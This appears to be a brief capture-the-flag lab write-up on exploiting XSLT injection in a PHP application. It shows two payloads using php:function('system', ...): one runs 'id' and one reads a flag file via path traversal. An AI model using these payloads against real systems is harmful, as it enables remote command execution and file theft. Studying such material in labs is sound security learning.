 # Exploiting XSLT Injection

Exploit the XSLT Injection vulnerability to obtain RCE and read the flag.

To explore this XSLT vulnerability lets try a simple payload first in order to see if the command gets executed:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```xml
<xsl:value-of select="php:function('system','id')" />
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And it worked!

After looking arround with the `ls` command, we finnaly managed to get the flag with following payload:

```xml
<xsl:value-of select="php:function('system','cat ../../../../flag.txt')" />
```

<figure><img src="../../../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>
